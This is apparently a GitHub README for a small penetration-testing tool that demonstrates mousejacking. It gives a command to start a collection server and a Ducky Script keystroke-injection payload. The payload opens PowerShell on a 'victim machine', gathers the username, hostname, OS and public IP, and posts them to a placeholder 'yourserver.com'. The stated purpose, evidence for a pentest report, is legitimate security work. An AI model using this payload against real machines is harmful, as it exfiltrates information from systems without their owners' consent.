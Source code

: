 # info_gather
Gather Windows Info for POC. A good use case is a POC for mousejacking finding on a pentest report.

Run the server and any port using:

```
python3 info_gather.py 80
```

On the victim machine use a Ducky Script to send the info to the server host:

```
DELAY 2000
GUI r
DELAY 500
STRING powershell.exe
DELAY 500
ENTER
DELAY 500
STRING $username = $env:username;$hostname = hostname;$os = (Get-CimInstance Win32_OperatingSystem).Caption;$public_ip = (Invoke-WebRequest -Uri 'http://ipinfo.io/ip').Content.Trim();$data = @{'username' = $username;'hostname' = $hostname;'os' = $os;'public_ip' = $public_ip};$json = $data | ConvertTo-Json;Invoke-RestMethod -Method Post -Uri "http://yourserver.com" -Body $json -ContentType "application/json"
DELAY 500
ENTER
```
